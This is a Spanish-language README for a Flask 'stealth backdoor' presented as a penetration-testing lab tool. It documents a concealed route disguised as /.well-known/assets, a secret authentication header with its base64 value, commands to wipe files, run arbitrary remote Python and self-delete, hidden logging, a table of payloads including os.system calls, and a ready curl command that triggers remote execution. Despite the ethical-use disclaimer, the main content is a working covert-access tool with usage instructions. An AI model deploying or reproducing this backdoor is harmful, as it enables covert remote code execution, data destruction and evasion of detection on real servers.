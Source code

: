 # 🕵️ Stealth Flask Backdoor

**⚠️ Solo para propósitos de auditoría y aprendizaje en ciberseguridad ética.**

Este microservidor Flask simula una puerta trasera para ejecutar pruebas de penetración y técnicas de evasión en entornos controlados.

## 🚀 Funcionalidades

- Ruta encubierta: `/.well-known/assets`
- Requiere header secreto: `X-Auth-Token: base64("SuperSecret")`
- Acciones:
  - `act=wipe` → borra todos los archivos en `./books`
  - `act=script` → ejecuta código Python remoto
  - `act=selfdestruct` → borra este script
- Logs ocultos en `.syslog`

## 🧪 Payloads útiles

| Payload                             | Descripción                         |
|-------------------------------------|-------------------------------------|
| `print("Hola mundo")`              | Imprime en consola del servidor     |
| `open("flag.txt", "w").write("✅")` | Escribe un archivo en el servidor   |
| `__import__('os').system('ls')`     | Ejecuta un comando de sistema       |
| `__import__('socket').gethostname()`| Obtener el nombre del servidor      |

## 📦 Ejecución

```bash
pip install -r requirements.txt
python backdoor.py
```

Accede desde otro sistema:

```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=script" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ=" \
  --data 'print("Backdoor activada")'
```

## ⚠️ Disclaimer

Este código es exclusivamente para **laboratorios éticos de hacking y aprendizaje**. El uso inapropiado en entornos no autorizados es ilegal.

---
